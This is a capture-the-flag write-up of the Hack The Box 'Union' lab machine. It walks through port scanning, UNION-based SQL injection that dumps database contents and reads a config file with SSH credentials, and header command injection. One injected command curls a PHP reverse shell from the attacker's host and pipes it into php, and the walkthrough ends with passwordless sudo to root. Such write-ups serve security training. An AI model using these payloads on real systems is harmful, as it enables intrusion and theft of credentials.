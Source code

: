 ```yaml
---
date: 2025-09-14
categories: [Linux, Medium]
---
```


<img width="300" height="300" alt="Union" src="https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/70ed2fa8b9c21114d688ba3f176c0198.png" />

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ippsec](https://app.hackthebox.com/users/3769)    | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Linux   |

---








 Enumeration

- I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports:

	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.128 -oG scan
	/opt/extractports scan
	nmap -p80 -sCV 10.10.11.128 -oN ports
	```

	<img width="778" height="218" alt="image" src="https://github.com/user-attachments/assets/2b23f301-43bb-4998-a32d-a171adb59f64" />

- From the scan results, only port 80 (HTTP) was open.
## Initial Access (Web Enumeration)

- Using `ffuf`, I enumerated `.php` files in the root directory:

	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.11.128/FUZZ.php --mc=200
	```

- The following files were discovered:

	`index.php`
	`firewall.php`
	`config.php`
	`challenge.php`

- Both `index.php` and `challenge.php` contained input fields that were sent to the server. Testing with SQL payloads revealed differences in responses, suggesting SQL injection was possible.

## Exploiting SQL Injection

- Injecting a single quote (`'`) and appending a comment sequence triggered diferent message, confirming SQL injection. Using a `UNION` injection, I successfully extracted database information:

	```python
	1' UNION SELECT database()-- -  
	-- november  
	
	1' UNION SELECT group_concat(schema_name) FROM information_schema.schemata-- -  
	-- mysql, information_schema, performance_schema, sys, november  
	
	1' UNION SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='november'-- -  
	-- flag, players  
	
	1' UNION SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='november' AND table_name='flag'-- -  
	
	1' UNION SELECT group_concat(one) FROM flag-- -  
	-- UHC{F1rst_5tep_2_Qualify}
	```

- Submitting the flag to `firewall.php` returned a success message, indicating that port **22 (SSH)** had been opened.

- Additionally, by leveraging `load_file()`, I retrieved the contents of `config.php` and extracted valid SSH credentials:

	```python
	player=a' union select load_file('/var/www/html/config.php');-- -
	```

- I then connected via SSH as user `uhc` and retrieved the first flag:

  ```python
  ssh uhc@10.10.11.128
  ```

## Privilege Escalation 

- Reviewing the source of `firewall.php`, I identified functionality that appended my IP address to an `iptables` command. Since the input was unsanitized, this was vulnerable to command injection through the `X-Forwarded-For` HTTP header.

- For example:

	```python
	X-FORWARDED-FOR: 1.1.1.1; whoami;
	```

- To gain a shell, I hosted a PHP reverse shell on my attacker machine and executed it remotely:

	```python
	X-FORWARDED-FOR: 1.1.1.1; curl http://10.10.14.16/rever.php | php;
	```

- This granted me a shell as the `www-data` user.

- Checking for sudo privileges revealed full root access without a password prompt:

	```python
	sudo -l
	```
	
- Since `www-data` could run any command as root, I obtained the root flag:

	```python
	sudo cat /root/root.txt
	```
